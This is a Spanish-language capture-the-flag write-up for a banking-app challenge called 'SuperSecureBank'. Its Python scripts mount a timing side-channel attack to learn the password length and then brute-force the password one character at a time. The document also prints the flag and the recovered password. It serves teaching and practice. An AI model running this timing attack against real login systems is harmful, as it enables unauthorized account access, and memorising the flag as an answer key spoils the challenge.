




# SuperSecureBank
- **Categoría:** Misc
- **Dificultad:** ★★★☆☆
- **Autor:** [ineesdv](https://www.linkedin.com/in/ineesdv/)

### Descripción
SuperSecureBank is a lightweight banking application that will allow you to manage your money very easily.  

Although the application has been around for many years, we have recently added a new feature: now you can store your most valuable information in a safe!  
We also provide an alternative channel where you can transfer money to other user's accounts.
<br>

### Archivos e instrucciones
Conexión netcat: ``nc <IP> 10000``

### Flag
``CTFUni{El_t13mp0_3s_0R0!$}``
<br>


# Writeup
### 1. Encontrar la vulnerabilidad
Al analizar la aplicación podemos ver que en dos ocasiones se nos pide la contraseña: al acceder a la caja fuerte y al hacer transferencias.

Sin embargo, si nos fijamos bien, cuando se hacen transferencias se nos dice que la tecnología es muy antigua, a diferencia del acceso a la caja fuerte. Además, se proporcionan errores que no aparecen en el otro caso, como el de la longitud incorrecta de la contraseña.  

Con un pequeño script (o a mano jeje), rápidamente se puede averiguar que la longitud de la contraseña es de 8 caracteres:  
```python
def getPassLen():
    info("Getting password length...")
    for i in range(1, 20):
        print("\t Trying len "+str(i))
        r.sendline(b"2")
        r.recvuntil(b"Enter amount:")
        r.sendline(b"1")
        r.recvuntil(b"Enter destination account:")
        r.sendline(b"1")
        r.recvuntil(b"Enter your password to confirm the transaction:")
        r.sendline(b"A" * i)
        r.recvline()
        output = r.recvline()

        if b"Password lengths must match" not in output:
            info("Found. Password length: "+str(i))
            return i
```  
  


<br>

Haciendo un test básico (enviar `[a-zA-Z0-9!@#_$%^&*()]`) se puede apreciar que hay un caso en el que el servidor tarda bastante más en responder. Por tanto, como se insinúa en el enunciado ("*alternative channel*"), estamos ante un **Side Channel Attack**, este caso por tiempo.  
  
```python
def time_chars(pass_len):
    info("Timing charset...")
    for i in charset:
        r.sendline(b"2")
        r.recvuntil(b"Enter amount:")
        r.sendline(b"1")
        r.recvuntil(b"Enter destination account:")
        r.sendline(b"1")
        r.recvuntil(b"Enter your password to confirm the transaction:")

        start = time.time()

        payload = i + "A"*(pass_len-1)
        r.sendline(payload.encode())
        r.recvline()
        output = r.recvline()

        end = time.time()
        t = end - start

        print("\t Char "+i+" - Time: "+str(t))
```
  
  


<br>

### 2. Explotación
Para obtener la contraseña bastará con un simple exploit que itere sobre el charset dado en el enunciado y vaya comparando los tiempos de respuesta. De esta manera irá seleccionando los caracteres en los que su tiempo de respuesta haya sido mayor. El exploit tarda aproximadamente 10 minutos en cargar toda la contraseña, ya que a medida que se van sacando caracteres, la aplicación tardará más en responder.  

Una manera de optimizarlo es darnos cuenta de que el tiempo es siempre constante (0.25 segundos aprox), por lo que, en cuanto se reciba un caracter cuya respuesta tarde más de 2.5 segundos, se pasa a la siguiente posición.  

Ejemplo de exploit:
```python
def attack(pass_len):
    info("Retrieving password...")
    cont = pass_len
    password = ""

    for k in range (1, pass_len+1):

        cont -= 1
        maxT = 0
        maxChar = ""

        for c in charset:
            r.sendline(b"2")
            r.recvuntil(b"Enter amount:")
            r.sendline(b"1")
            r.recvuntil(b"Enter destination account:")
            r.sendline(b"1")
            r.recvuntil(b"Enter your password to confirm the transaction:")

            start = time.time()

            payload = password + c + "A"*cont
            r.sendline(payload.encode())
            r.recvline()
            output = r.recvline()

            end = time.time()
            t = end - start
            if t > maxT:
                maxT = t
                maxChar = c

                # Optimización
                if t > (0.25*k):
                    break

        password += maxChar
        print("\t Password: "+password+"...")
    
    info("Found. Password: "+password)       
```

### 3. Acceso a la caja fuerte
Una vez conocida la contraseña (`c9v#M7_6`), solo hará falta seleccionar la opción de acceder a la caja fuerte (3) e introducir la contraseña obtenida. El servidor nos devolverá la flag.  

Juntando todo el proceso:  


  


